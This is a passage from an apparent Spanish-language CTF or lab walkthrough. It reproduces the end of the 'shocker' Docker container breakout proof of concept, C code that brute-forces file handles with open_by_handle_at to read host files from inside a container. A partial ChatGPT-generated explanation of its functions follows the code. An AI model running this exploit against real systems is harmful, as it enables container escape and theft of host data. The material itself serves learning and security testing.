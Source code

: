 ```C
        .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
    };
    
    fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"
    "[***] If you have pending sec consulting, I'll happily [***]\n"
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
    
    read(0, buf, 1);
    
    // get a FS reference from something mounted in from outside
    if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
        die("[-] open");
    
    if (find_handle(fd1, argv[1], &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
    
    fprintf(stderr, "[!] Got a final handle!\n");
    dump_handle(&h);
    
    if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
        die("[-] open_by_handle");
    
    memset(buf, 0, sizeof(buf));
    if (read(fd2, buf, sizeof(buf) - 1) < 0)
        die("[-] read");
    
    printf("Success!!\n");
    
    FILE *fptr;
    fptr = fopen(argv[2], "w");
    fprintf(fptr,"%s", buf);
    fclose(fptr);
    
    close(fd2); close(fd1);
    
    return 0;
}
```

Como no soy un gran experto en C. Podemos pedirle a ChatGPT que nos explique que hace el script de forma detallada.

1. **Funciones Clave**:
    
    - `die(const char *msg)`: Muestra un mensaje de error y termina el programa.
    - `dump_handle(const struct my_file_handle *h)`: Imprime los detalles de un identificador de archivo.
    - `find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle *oh)`:
        - Recursivamente encuentra el identificador de un archivo basado en un camino (`path`) dado.
        - Utiliza `open_by_handle_at` para abrir directorios y archivos mediante identificadores.
        - Realiza una búsqueda exhaustiva (brute force) para encontrar el identificador correcto del archivo deseado.
2. **Función Principal (`main`)**:
    